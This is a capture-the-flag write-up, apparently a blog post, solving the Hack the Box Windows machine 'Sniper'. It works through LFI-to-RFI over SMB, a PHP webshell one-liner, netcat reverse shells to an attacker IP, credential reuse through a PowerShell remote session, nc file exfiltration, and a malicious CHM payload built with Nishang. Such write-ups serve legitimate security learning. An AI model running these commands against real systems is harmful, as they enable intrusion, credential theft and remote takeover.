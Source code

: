 +++
author = "Nick"
categories = ["hack the box", "LFI", "RFI", "PHP", "reverse shell", "Powershell", "rsync", "netcat", "windows", "chm"]
date = 2020-03-28T15:08:24Z
description = ""
draft = false
thumbnail = "/images/2019/12/sniper.png"
slug = "hack-the-box-sniper"
summary = "Welcome everyone. Today we will be doing the machine Sniper on Hack the Box. The machine is a Windows machine and listed as medium in difficulty. Let's jump in!"
tags = ["hack the box", "LFI", "RFI", "PHP", "reverse shell", "Powershell", "rsync", "netcat", "windows", "chm"]
title = "Hack the Box - Sniper"
url = "/hack-the-box-sniper"

+++


Welcome everyone. Today we will be doing the machine Sniper on Hack the Box. The machine is a Windows machine and listed as medium in difficulty. Let's jump in!

As usual, we kick it off with our ```nmap``` scan: ```nmap -sC -sV -oA initial_scan 10.10.10.151```
The results came back pretty limited, so we rerun the nmap with ```-p-``` for all ports and speed it up a bit with ```-T4```.

```
Nmap scan report for 10.10.10.151
Host is up (0.053s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m58s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-27T23:15:28
|_  start_date: N/A
```

We see a webserver running so we go to see what it's hosting. The site is a logistics site. We take a look at the source but there's nothing of any use there. We do see the ```body``` tag being repeated a few times, which is a bit odd. We do see we have some additional routes though. We have ```/blog``` and ```/user```. We explore those pages and the links that they contain. We see there is also a ```registration.php```. So to get a better idea of what might be here we'll use ```gobuster``` to start enumerating possible new locations and pages.

We'll give it our standard command: ```gobuster dir -u http://10.10.10.151 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php```.

While that run's we will quckly point ```SQLMap``` and the ```/blog/?lang=blog-es.php``` route and see what it might find. Nothing shows up. We'll load up ```Burpsuite``` and see what the requests are actually doing. 

We get our proxy turned on and start looking at the requests. The first request that we want to look at is obviously ```/blog/?lang=``` since this has potential for exploit. We play with the request a few times and finally find a ```LFI```.

![](/images/2019/12/image-5.png" caption="We request the system.ini file)

![](/images/2019/12/image-6.png" caption="And here it is.)

So it looks like we have an LFI we can exploit. Now we need convert this LFI into somehow. Thankfully Windows will let us execute scripts on ```SMB``` shares. Explicitly this [RFI PHP Bypass](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html). So we'll need to create a reverse shell script and remote execution script, spin up an SMB share and then call the script via our LFI. 

We'll start with making a ```Meterpreter``` reverse shell with ```MSFPC```. 
Command: ```MSFPC windows tun0 4444```

Now that we have our shell, we will get a SMB server running. Originally I spun up the share with ```impacket``` but that failed to work, so we will need to turn on our hosting locally, following the instructions linked above:

```
mkdir /var/www/html/pub/ 
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
echo > /etc/samba/smb.conf
echo -e "[global]\nworkgroup = WORKGROUP\nserver string = Samba Server %v\nnetbios name = name-me\nsecurity = user\nmap to guest = bad user\nname resolve order = bcast host\ndns proxy = no\nbind interfaces only = yes\n[ica]\npath = /var/www/html/pub\nwritable = no\nguest ok = yes\nguest only = yes\nread only = yes\ndirectory mode = 0555\nforce user = nobody" > /etc/samba/smb.conf
service smbd restart 
```
We can take those commands above and slap them in a ```.sh``` file for easy repeatability should we want to.
  
Now we need to have a way for our shell to executed. There are a few ways to do this, the most common being use a premade reverse shell execution script or make one using ```<?php echo shell_exec($_GET[‘cmd’]); ?>```. This will let you append CMD at the end of the .php call and execute something. In this case I used [WhileWinterWolfs PHP shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

Now that we have our pieces in place, let's execute! We head over to our browser and go to ```http://10.10.10.151/blog/?lang=//10.10.15.177/ica/wolfshell.php```. This will make the server load the file from our ```SMB``` share and give us a shell back to itself.

![](/images/2019/12/image-7.png)

We have a shell as ```iusr```. We need to convert this into a more permanent shell. We will upload our previously created payload to the system and execute it. 

During the upload we seem to keep getting some errors. Possibly due to Windows Defender eating our payload(s). So we'll get a bit more lowtech and basic. We can upload a ```netcat``` binary and just use that to forward a shell to us.

![](/images/2019/12/full_nc.gif)

Now that we have a more stable shell type, lets enumerate. In the ```inetpub``` structure we see some interesting files:

![](/images/2019/12/image-8.png)

Inside the ```db.php``` file we some credentials.

Creds:
```dbuser``` | ```36mEAhz/B8xQ~2VM```

These credentials very well could work for the user we are after, Chris. So we will try and escalate our permissions to his account via ```Powershell```. You need a bit of understanding on ```Powershell``` usage but it's pretty simple when we think about it. We need to store these credentials as variables, then pass them to the process we want to run.

```
$username = 'sniper\chris'
$pass = '36mEAhz/B8xQ~2VM'
$securePass = ConvertTo-SecureString $pass -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username,
$securePass
$session = New-PSSession -ComputerName Sniper -Credential $credential
Invoke-Command -Session $session -ScriptBlock { C:\tmp\nc.exe -e cmd.exe 10.10.15.177 9999}
```

Here's a quick breakdown of the above. The ```$username``` variable stores our username. The ```$pass``` stores our password. We then convert the ```$pass``` variable into a secured variable that we can pass to other functions. With ```$credential``` we store the ```$username``` and secured ```$pass```. We then create a new session with ```New-PSSession```. This created a new "sub session" within the machine. Then we finally tell that session to forward a escalated shell via ```nc.exe```.

![](/images/2019/12/escalate.gif)

Now that we have a shell as Chris, let's enumerate again! There is a file called ```Instructions.chm``` in the ```Downloads``` folder. We also see there is a folder called ```Docs``` on the root of C. Inside we have a few files.

![](/images/2019/12/image-9.png)

We will send the .chm over to our machine with nc: 
```C:\temp\nc64.exe -w 3 10.10.15.177 777 < instructions.chm```

Catch it with the corresponding listener: 
```nc -lvnp 777 > instructions.chm```

This is what we see when we open the file:

![](/images/2019/12/image-10.png)

Nothing of great use. However based on what we saw, we know that the CEO is expecting some documentation to land in the Docs directory. Maybe we can craft a payload and when the CEO opens it, compromises him. Luckily for us, we have the means [to do just that](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1).

We'll clone this repo down to our Windows machine. We run the command in Powershell to create our payload:

```Out-CHM -Payload "C:\tmp\nc.exe 10.10.15.177 7331 -e cmd.exe" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"```

This creates the payload. We then need to get our payload to ```C:\Docs```. Spin up a ```SimpleHTTPServer``` to host our file. Then use ```invoke-webrequest``` in powershell to get the file to download.

```invoke-webrequest -uri http://10.10.15.177/safe.chm -outfile C:\Users\Chris\Documents\safe.chm```

Once we download it, we move it to ```C:\Docs``` and wait for a shell.

![](/images/2019/12/lsat_step.gif)

We have a shell as root!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).


